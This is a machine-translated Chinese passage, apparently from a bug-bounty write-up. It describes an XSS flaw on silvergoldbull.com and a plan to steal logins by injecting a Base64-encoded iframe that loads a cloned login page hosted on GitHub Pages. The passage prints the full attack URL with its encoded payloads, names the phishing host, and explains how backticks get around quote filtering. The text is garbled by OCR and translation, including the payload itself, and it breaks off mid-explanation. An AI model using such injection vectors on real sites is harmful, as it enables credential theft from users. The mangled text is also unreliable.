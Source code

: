 Img 3.0 Base64 编码 XSS 矢量

![](img/d13079fa33cd2940020cfe2ae31e757b.png)

Img 4.0 Base64 反向 XSS 向量

但是我们无法获得我们需要的 cookie，因为 HTTPOnly 在 cookie 上，所以我们需要更高级的攻击。一些能给我们带来数据的东西。

# 2.使用显示在[https://silvergoldbull.com](https://silvergoldbull.com)上的 Iframe 内的假登录窃取用户登录

让我们首先克隆登录页面并设置假的 https 登录页面:

> 【https://maxon3.github.io/silvergold/ 号

接下来，我们必须设置注入向量，因为引号和双引号从向量中删除，我们必须使用其他东西来代替它们，我们可以使用反引号并绕过它。步骤:

1.使用编码的 base64 iframe 值(secK 参数)在 URL 请求中设置新参数

2.用我们的 javascript 注入向量请求 secK 的值(注入向量是 g 参数的值)

3.页面得到渲染和显示

4.用户输入数据并点击登录

5.攻击者有用户数据，最好的事情是 URL 仍然会显示 silvergoldbull

使用的矢量是:

> 【https://silvergoldbull.com/bt.html? secK = pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvafe 0 efh VJ 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = =&g = V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1 N2 bkpddwlmcjnxy 2 fma 1【T5

解释道:

